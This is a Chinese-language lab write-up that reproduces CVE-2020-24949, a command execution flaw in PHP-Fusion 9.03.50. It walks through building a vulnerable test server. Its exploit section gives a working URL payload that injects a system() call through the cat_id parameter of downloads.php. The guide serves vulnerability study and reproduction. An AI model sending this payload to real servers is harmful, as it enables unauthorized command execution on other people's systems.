









# 0x0 前言
### CVE-2020-24949 Description  
~~Privilege escalation~~(?) in **PHP-Fusion 9.03.50** **downloads/downloads.php** allows an **authenticated user (not admin)** to send a crafted request to the server and perform remote command execution (RCE) which is should be excuted only by admin. It occurred when **allow_php_execution is on**.

### PHP-Fusion
PHP-Fusion is a free and open-source web framework based on **PHP** and **MySQL** that has an integrated **content management system (CMS)** among many other[which?] features.
To function, PHP-Fusion has to be installed on a web server, this can be either locally hosted or remotely hosted.

> 1. 此CVE須開啟allow php execution，是蠻少發生的情況
> 2. 此CVE因為是從Web打入，因此攻擊成功並非拿到root權限，而是web owner(www-data)的權限
* ()內為測試時使用之環境
* <>為可變動或需視使用環境變動的欄位
* `斜體字`為指令

# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 任意具瀏覽器之攻擊機 (Kali Linux 2020.4)
* 受攻擊機 (Ubuntu 20.04)

# 0x2 受攻擊機環境建置
### 安裝PHP、Apache及MySQL
1. `sudo apt install php libapache2-mod-php php-common php-mbstring php-gd php-intl php-curl php-xml php-mysql php-pgsql php-mysql php-bcmath unzip wget mysql-server`，安裝PHP相關套件
、Apache2及MySQL server  

### 下載與設定PHP Fusion
2. `wget -c https://sourceforge.net/projects/php-fusion/files/PHP-Fusion%20Archives/9.x/PHP-Fusion%209.03.50.zip/download -O php-fusion.zip`，下載**PHP Fusion 9.03.50**

3. `sudo mkdir tmp; sudo unzip php-fusion.zip -d tmp/; sudo mkdir /var/www/html/php-fusion/; sudo cp -R tmp/files/* /var/www/html/php-fusion/; cd /var/www/html/php-fusion/`，解壓縮php-fusion.zip至/var/www/html/php-fusion/  

4. `sudo chown -R www-data:www-data php-fusion`，設定owner

5. `sudo chmod 775 php-fusion`，設定權限

### 建立MySQL Database與使用者
6. `sudo mysql -u root -p`，執行mysql

7. `CREATE DATABASE phpfusion;`，建立database **phpfusion**

8. `CREATE USER 'vulner'@'localhost' IDENTIFIED BY 'vul.,';`，建立使用者帳密 **vulner/vul.,** (似乎要加兩個符號才能符合密碼規定)

9. `GRANT ALL PRIVILEGES ON phpfusion.* TO 'vulner'@'localhost';`，賦予**帳號vulner**存取**database phpfusion**下所有table的權限

10. `FLUSH PRIVILEGES;`，寫入權限設定

11. `exit`，離開mysql console

### 安裝PHP Fusion
12. **開啟瀏覽器**，在網址列輸入`http://127.0.0.1/php-fusion/`，應該要能夠進入安裝畫面，接著根據以下步驟設定  

> 此處Databse Name(phpfusion)/User(vulner)/Password(vul.,)須與剛剛建立MySQL使用者時相同，其餘不用改動  

> 依喜好設定

> ***超級重要！！！！！！！！！！！！！！，這步一定要做***，開啟infusions的downloads功能，否則之後會無法access php-fusion/infusions/downloads

13. `cd php-fusion; sudo rm install.php`，PHP Fusion有強制管理者刪除install.php

### Allow PHP Execution
> ***重要！！！！一定要開***
14. 登入Admin帳號(vulner/vulvulvul)  

15. **左側導覽列 > Settings > Security > Allow PHP Execution => YES**  

### Change Host
16. **左側導覽列 > Settings > Main > Site Host => <受攻擊機ip(192.168.153.146)>**  

# 0x3 Exploit
1. 於網址列輸入`http://<受攻擊機ip>/php-fusion/infusions/downloads/downloads.php?cat_id=${system('<任意指令(id)>')}`，可於Downloads欄下方看到指令執行結果  

# 0x4 Snort/Suricata Rule
無相關資源

# 0x5 Reference
1. https://github.com/php-fusion/PHP-Fusion/issues/2312
2. https://www.linuxhelp.com/how-to-install-php-fusion-in-ubuntu-16-04
